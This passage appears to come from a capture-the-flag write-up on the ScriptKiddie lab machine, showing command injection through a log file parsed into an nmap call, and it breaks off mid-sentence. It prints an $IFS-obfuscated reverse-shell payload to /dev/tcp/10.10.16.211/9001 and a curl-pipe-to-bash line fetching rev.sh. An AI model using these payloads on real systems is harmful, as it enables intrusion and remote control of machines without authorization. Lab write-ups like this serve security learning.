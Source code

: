 ```bash
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

So, it looks like some sort of automation is reading the hackers file. If we insert a malicious 'ip address' into the file, it will be read by `pwn` and executed as part of the `nmap` command.

However, the script cuts based on spaces. So we can try to insert a payload that doesn't have spaces, using the $IFS character:

```bash
;/bin/bash$IFS-c$IFS'bash$IFS-i$IFS>&$IFS/dev/tcp/10.10.16.211/9001$IFS0>&1'#
```

This should end the `nmap` command with a semicolon, execute our command, then comment the rest out.

Echoing it to the file, however, gives us no results:

```
kid@scriptkiddie:~/logs$ echo ";/bin/bash$IFS-c$IFS'bash$IFS-i$IFS>&$IFS/dev/tcp/10.10.16.211/9001$IFS0>&1'#" >> hackers
```

I wondered if it was getting cleared extremely quickly after being written, so I tried to both echo to it and submit `;id` to trigger the scanning at the same time:

![[Pasted image 20210612151527.png]]

We can see the scan on our IP, but not our malicious payload.

I tried editing the file just to make sure I had permissions. This time, the edit showed up in the log:

![[Pasted image 20210612151628.png]]

So it looks like writing with `nano` works. Cool!

Now we just need to add our real payload:

![[Pasted image 20210612151702.png]]

This time we see the injected code:

![[Pasted image 20210612151738.png]]

But the shell immediately dies, just like before!

![[Pasted image 20210612151801.png]]

So... why not reuse the payload that eventually worked?

```bash
curl http://10.10.16.211/rev.sh | bash
```

This payload becomes:

